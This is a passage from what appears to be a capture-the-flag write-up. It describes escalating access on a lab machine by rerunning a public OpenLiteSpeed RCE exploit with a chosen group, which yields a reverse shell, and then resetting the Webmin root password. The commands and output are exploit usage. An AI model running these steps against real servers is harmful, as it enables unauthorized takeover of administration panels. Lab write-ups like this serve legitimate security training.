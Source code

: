 Using our access, we can actually reset the Webmin password.

{% embed url="https://linuxconfig.net/manuals/howto/how-to-reset-webmin-password.html" %}

However, it appears that only the `bin` group has access to the `/etc/webmin` group:

```
thor@Lite:~$ ls -la /etc/webmin/
total 536                                                                                    
drwxr-xr-x 116 root root 4096 Jun  7  2022 .                                                 
drwxr-xr-x 101 root root 4096 Jul 15 03:43 ..                                                
drwx--x--x   2 root bin  4096 Jun  7  2022 acl
drwx--x--x   2 root bin  4096 Jun  7  2022 adsl-client
drwx--x--x   2 root bin  4096 Jun  7  2022 ajaxterm
<TRUNCATED>
```

Earlier, the RCE exploit for OpenLiteSpeed required us to specify a GroupID, of which I specified `shadow` as the default. We can try specifying bin and using that shell to reset the password.

```
$ python3 49556.py 192.168.201.208:7080 admin Foster2020 bin   
[+] Authentication was successful!
[+] Version is detected: OpenLiteSpeed 1.7.8
[+] The target is vulnerable!
[+] tk value is obtained: 0.02467200 1689393257
[+] Sending reverse shell to 127.0.0.1:4444 ...
[+] Triggering command execution...
```

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Then we can reset the password and restart Webmin as `thor`:

```
nobody@Lite:/usr/bin$ /usr/share/webmin/changepass.pl /etc/webmin root toor
Updated password of Webmin user root
Webmin is not running - cannot refresh configuration

thor@Lite:~$ sudo /usr/bin/systemctl restart webmin
```

Using this, we can login to Webmin and view the dashboard:

